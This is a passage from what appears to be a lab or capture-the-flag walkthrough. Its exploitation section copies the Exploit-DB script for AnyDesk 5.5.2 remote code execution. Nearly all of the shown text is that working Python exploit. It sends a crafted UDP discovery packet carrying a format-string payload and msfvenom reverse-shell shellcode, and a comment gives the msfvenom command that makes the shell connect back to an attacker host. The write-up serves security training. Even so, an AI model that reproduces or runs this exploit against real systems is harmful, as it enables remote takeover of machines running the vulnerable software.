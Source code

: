 Ok, we got a python exploit on here, let's proceed to exploitation:

## EXPLOITATION

***

Let's get the exploit to our machine:

Link: https://www.exploit-db.com/exploits/49613

First of all, once we get the exploit, we can see this:

```python
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881

#!/usr/bin/env python
import struct
import socket
import sys

ip = '192.168.x.x'
port = 50001

def gen_discover_packet(ad_id, os, hn, user, inf, func):
  d  = chr(0x3e)+chr(0xd1)+chr(0x1)
  d += struct.pack('>I', ad_id)
  d += struct.pack('>I', 0)
  d += chr(0x2)+chr(os)
  d += struct.pack('>I', len(hn)) + hn
  d += struct.pack('>I', len(user)) + user
  d += struct.pack('>I', 0)
  d += struct.pack('>I', len(inf)) + inf
  d += chr(0)
  d += struct.pack('>I', len(func)) + func
  d += chr(0x2)+chr(0xc3)+chr(0x51)
  return d

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xcb\x46\x40"
shellcode += b"\x6c\xed\xa4\xe0\xfb\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xa1\x6f\x18\xf5\x87"
shellcode += b"\xa6\xbf\x91\xca\x18\x4f\x69\xa5\x33\xa8\x42"
shellcode += b"\xc9\x46\x41\xd1\x2d\x0c\x96\xf8\x9a\x0e\xc9"
shellcode += b"\x8a\x87\xb4\xba\x91\xe1\x1e\x4f\x69\x87\xa7"
shellcode += b"\xbe\xb3\x34\x88\x2a\x4d\xb5\xab\xe5\x8e\x3d"
shellcode += b"\x2c\x7b\x34\x74\xec\x5b\xd4\xa9\x2f\x2e\x43"
shellcode += b"\x9e\xcc\xe0\xa8\x83\xcf\xa7\x3e\xba\xec\x69"
shellcode += b"\x1d\xc4\x43\x40\x6c\xed\xa4\xe0\xfb"

print('sending payload ...')
p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()
print('reverse shell should connect within 5 seconds')
```